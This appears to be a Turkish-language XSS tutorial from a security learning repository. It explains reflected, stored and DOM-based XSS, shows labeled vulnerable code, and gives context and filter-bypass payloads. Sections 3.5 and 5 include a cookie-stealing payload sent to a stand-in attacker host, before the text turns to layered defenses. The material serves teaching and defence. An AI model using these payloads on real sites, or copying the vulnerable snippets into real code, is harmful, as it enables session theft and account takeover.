

# 🎭 Cross-Site Scripting (XSS)

XSS, saldırganın **kurbanın tarayıcısında** kötü niyetli JavaScript çalıştırmasına izin veren bir enjeksiyon zafiyetidir. SQLi veritabanını hedeflerken, XSS **kullanıcıyı** ve onun oturumunu hedefler. Aynı ailenin (enjeksiyon) tarayıcı-tarafı üyesidir.

> Aile: [enjeksiyon-aileleri.md](enjeksiyon-aileleri.md). Bağlam: [web-mimarisi.md](../web-mimarisi.md) (SOP), [http-web-iletisimi.md](../../01-ag-networking/http-web-iletisimi.md) (çerez bayrakları).

---

## 1. Ne? — Mekanizma

Bir uygulama, kullanıcı girdisini **doğrulamadan/kodlamadan HTML sayfasına yerleştirdiğinde** XSS doğar. Tarayıcı, girdinin içindeki `<script>` etiketini "veri" değil "çalıştırılacak kod" olarak yorumlar.

### Zafiyetli kod
```javascript
// ZAFİYETLİ — kullanıcı girdisi doğrudan DOM'a yazılıyor
const isim = new URLSearchParams(location.search).get('isim');
document.getElementById('selam').innerHTML = "Merhaba " + isim;
```
Normal: `?isim=Ali` → "Merhaba Ali".
Saldırı: `?isim=<script>alert(document.cookie)</script>` → **saldırganın script'i çalışır**.

Sunucu tarafı örneği (aynı hata, PHP):
```php
// ZAFİYETLİ
echo "Arama sonucu: " . $_GET['q'];   // <script>...</script> aynen basılır
```

---

## 2. Neden? — Neden tehlikeli?

Çalışan script, **kurbanın oturumu bağlamında** ve o sitenin kökeninde çalışır ([web-mimarisi.md](../web-mimarisi.md) SOP). Yani sitenin JavaScript'inin yapabildiği her şeyi yapabilir:

- **Oturum çerezi çalma:** `document.cookie`'yi saldırgana gönderme → oturum ele geçirme (hesap devralma).
- **Kimlik avı (phishing):** Sayfaya sahte giriş formu enjekte etme.
- **Keylogger:** Tuş vuruşlarını yakalama.
- **Kurban adına işlem:** CSRF benzeri şekilde, kurbanın yetkisiyle istek gönderme (para transferi, ayar değişimi).
- **Tarayıcı sömürüsü / BeEF** ile daha derin kontrol.

---

## 3. XSS türleri (kritik ayrım)



| Tür | Payload nerede | Kurban nasıl etkilenir | Ciddiyet |
|-----|----------------|------------------------|----------|
| **Reflected (yansıyan)** | İstekte (URL parametresi), yanıtta anında yansır | Kurbanın kötü linke tıklaması gerekir | Orta |
| **Stored (depolanan)** | Sunucuda saklanır (yorum, profil, mesaj) | Sayfayı **açan herkes** etkilenir, tıklama gerekmez | **Yüksek** |
| **DOM-based** | Hiç sunucuya gitmez; istemci JS'i güvensiz veriyi DOM'a yazar | İstemci tarafı, sunucu logunda görünmez | Değişken |

> **Nüans — Stored en tehlikelisi:** Reflected XSS'te kurbanı linke tıklatmak gerekir; **Stored XSS** ise zararlıyı sunucuda tutar ve o sayfaya giren herkese (belki binlerce kullanıcıya, hatta yöneticiye) otomatik servis eder. Bir forum yorumuna gömülü stored XSS, "solucan" (worm) gibi yayılabilir (2005 Samy MySpace solucanı).

> **Nüans — DOM-based sunucuda görünmez:** Payload sunucuya hiç ulaşmadığı için (`#` fragment veya istemci JS ile işlenir) sunucu logları ve WAF onu göremeyebilir. Tespit istemci tarafı analiz gerektirir.

---

## 3.5. İleri teknikler: bağlam, filtre atlatma, gerçek etki

XSS'i "alert(1) açtırma" seviyesinden gerçek anlayışa taşıyan üç boyut vardır: bağlama uygun payload, filtre atlatma ve gerçek silahlandırma.

### Bağlama göre payload (context matters)
Aynı girdi, HTML'de nereye düştüğüne göre farklı payload gerektirir — sistemi anlayan saldırgan önce "girdim nereye, nasıl gömülüyor?" diye bakar:
```html
<!-- HTML gövdesinde: yeni etiket aç -->
<script>alert(1)</script>

<!-- Bir öznitelik değeri içinde (value="GİRDİ"): önce tırnaktan çık -->
"><script>alert(1)</script>
" onmouseover="alert(1)

<!-- Bir <script> bloğu içinde (var x="GİRDİ"): JS'ten çık -->
";alert(1);//

<!-- Bir href/src içinde: javascript: şeması -->
javascript:alert(1)
```

### Filtre/WAF atlatma
`<script>` engellenmişse, JavaScript çalıştırmanın **onlarca başka yolu** vardır — bu yüzden kara liste ([enjeksiyon-aileleri.md](enjeksiyon-aileleri.md)) kaybeder:
```html
                <!-- olay işleyici (event handler) -->
<svg onload=alert(1)>                        <!-- script'siz çalışma -->
<body onpageshow=alert(1)>
<iframe src="javascript:alert(1)">
<a href="javascript:alert(1)">tıkla</a>
<!-- Filtre "alert" kelimesini engellerse: -->
   <!-- Base64'lü payload (kodlama ≠ engel) -->
                 <!-- büyük/küçük harf karışımı -->
```
Base64 kullanımı ([../../00-baslangic/bilgisayar-temelleri.md](../../00-baslangic/bilgisayar-temelleri.md) kodlama≠şifreleme) tam da SQLi WAF atlatmasındaki ([sqli.md](sqli.md)) mantıktır — filtre bir string arıyorsa, aynı kodu farklı yazmak onu köreltir.

### CSP atlatma (temel mantık)
İçerik Güvenlik Politikası ([../../01-ag-networking/http-web-iletisimi.md](../../01-ag-networking/http-web-iletisimi.md)) satır-içi (inline) script'i engelleyerek XSS'i azaltır. Ama zayıf yapılandırılmış CSP atlatılabilir: `unsafe-inline` varsa CSP baştan işlevsiz; izin verilen bir CDN'de saldırganın kontrol edebildiği bir JSONP uç noktası veya eski kütüphane (gadget) varsa oradan yürütme sağlanabilir. CSP bir **azaltma** (mitigation) katmanıdır, çıktı kodlamanın yerine geçmez.

### Gerçek silahlandırma (alert'in ötesi)
`alert(1)` sadece "çalıştı mı?" kanıtıdır. Gerçek saldırıda payload:
```html
<!-- Oturum çerezini saldırgana gönder (HttpOnly yoksa) -->
<script>new Image().src='http://saldirgan/c='+document.cookie</script>
<!-- Kimlik bilgisi çalan sahte form enjekte et, tuş kaydet (keylogger), -->
<!-- veya kurban adına istek gönder (CSRF token'ı okuyarak) -->
```
> **Kesişim:** Çerez hırsızlığı yalnızca çerezde `HttpOnly` bayrağı **yoksa** çalışır ([../../01-ag-networking/http-web-iletisimi.md](../../01-ag-networking/http-web-iletisimi.md)) — bu yüzden HttpOnly, XSS başarılı olsa bile oturum çalmayı engelleyen kritik katmandır. XSS'in CSRF token'ını okuyup CSRF korumasını da atlatabilmesi ([csrf-ssrf.md](csrf-ssrf.md)), onu neden CSRF'ten "daha güçlü" yaptığının kanıtıdır.

---

## 4. Nüans: diğer sık hatalar

- **"Kara liste ile `<script>`'i engelledim":** Atlatılabilir (yukarıdaki §3.5) — ``, `<svg onload=...>`, olay işleyicileri (event handlers), `javascript:` URI'leri, kodlama hileleri. XSS payload yüzeyi çok geniştir; kara liste kaybeden bir oyundur.
- **Bağlam (context) önemlidir:** Aynı girdi HTML gövdesinde, HTML özniteliğinde, JavaScript içinde, URL'de veya CSS'te farklı kaçış gerektirir. "HTML encode ettim" bir JS bağlamında yetmeyebilir.
- **XSS ↔ CSRF farkı:** XSS = sitenin kullanıcıya **güveninin** istismarı (kod çalıştırma). CSRF = sitenin kullanıcının **tarayıcısına güveninin** istismarı ([csrf-ssrf.md](csrf-ssrf.md)). XSS genelde daha güçlüdür çünkü CSRF korumalarını da (token okuyarak) atlatabilir.

---

## 5. Saldırı–savunma kesişimi: PoC senaryosu

**Ortam:** Juice Shop / DVWA ([../pratik-lab/juice-shop-notlari.md](../pratik-lab/juice-shop-notlari.md)).

1. Bir girdi noktası bul (arama, yorum, profil adı).
2. Zararsız kanıt payload'ı gir: `<script>alert(1)</script>` veya daha modern `">`.
3. Alert çıkarsa reflected/stored XSS doğrulanmış olur.
4. Gerçek etki kanıtı (lab'da): `<script>new Image().src='http://SALDIRGAN/c='+document.cookie</script>` — çerezin dışarı gittiğini kendi dinleyicinde gör.

**Ne gözlemlenir:** Payload'ı gönderdikten sonra sayfa yeniden yüklendiğinde tarayıcı `1` yazan bir JavaScript `alert` kutusu açar — yani girdiğin metin "veri" olarak gösterilmek yerine "kod" olarak çalıştırıldı. Sayfa kaynağına bakınca (`Ctrl+U`) payload'ın HTML'e ham (kodlanmamış) gömüldüğü görülür:
```html
<div class="arama-sonucu">Sonuç: <script>alert(1)</script></div>
```
Kodlama yapılmış olsaydı `&lt;script&gt;alert(1)&lt;/script&gt;` görünür ve **çalışmazdı** — çıktı kodlamanın (output encoding) savunmasının özü budur.

> ⚠️ Sadece kendi lab'ında. `HttpOnly` çerezleri `document.cookie` ile okunamaz — bu yüzden aşağıdaki savunma kritiktir.

---

## 6. Önleme (katmanlı)

XSS savunması tek bir mermi değil, katmanların birleşimidir. Ana ilke: **çıktı kodlama (output encoding)** — girdiyi sayfaya yazarken bağlama uygun şekilde zararsızlaştır.

### 1) Çıktı kodlama (birincil)
Kullanıcı verisini HTML'e yazarken özel karakterleri **HTML varlıklarına** çevir: `<` → `&lt;`, `>` → `&gt;`, `"` → `&quot;`. Böylece `<script>` metin olarak görünür, çalışmaz.
```javascript
// GÜVENLİ — innerHTML yerine textContent (tarayıcı içeriği kod olarak yorumlamaz)
document.getElementById('selam').textContent = "Merhaba " + isim;
```
Modern framework'ler (React, Angular, Vue) çıktıyı **varsayılan olarak** kodlar — bu yüzden `dangerouslySetInnerHTML` / `v-html` gibi kaçışları bilinçli kullanılmadıkça XSS'i büyük ölçüde önlerler.

### 2) İçerik Güvenlik Politikası (CSP)
Bir HTTP başlığı olarak, tarayıcıya "script yalnızca şu kaynaklardan çalışsın, satır-içi (inline) script çalışmasın" der. XSS'in **etkisini** azaltan güçlü ikinci katman.
```http
Content-Security-Policy: default-src 'self'; script-src 'self'; object-src 'none'
```
Bu politikayla, enjekte edilen satır-içi `<script>` **çalışmaz** (inline yasak). CSP, çıktı kodlamayı tamamlar, yerine geçmez.

### 3) HttpOnly çerez bayrağı
Oturum çerezine `HttpOnly` konursa, XSS başarılı olsa bile `document.cookie` çerezi **okuyamaz** → oturum çalınması engellenir ([http-web-iletisimi.md](../../01-ag-networking/http-web-iletisimi.md)).
```http
Set-Cookie: session=...; HttpOnly; Secure; SameSite=Strict
```

### 4) Girdi doğrulama (allow-list)
Beklenen formatı zorla (ör. kullanıcı adı yalnızca harf/rakam). Yardımcı katman.

| Katman | Rol |
|--------|-----|
| Çıktı kodlama / güvenli framework | **Birincil** — payload'ı zararsızlaştırır |
| CSP | Etkiyi azaltır (inline script'i durdurur) |
| HttpOnly + Secure çerez | Oturum hırsızlığını önler |
| Girdi doğrulama | Yüzeyi daraltır |

---

## 7. Özet

- **Ne:** Kurbanın tarayıcısında saldırgan JavaScript'i çalışması.
- **Türler:** Reflected (link), Stored (en tehlikeli, herkese servis), DOM-based (istemci tarafı, gizli).
- **Etki:** Oturum çalma, hesap devralma, phishing, kurban adına işlem.
- **Savunma:** Çıktı kodlama (birincil) + CSP + HttpOnly çerez + girdi doğrulama.

> **Sonraki:** [csrf-ssrf.md](csrf-ssrf.md).
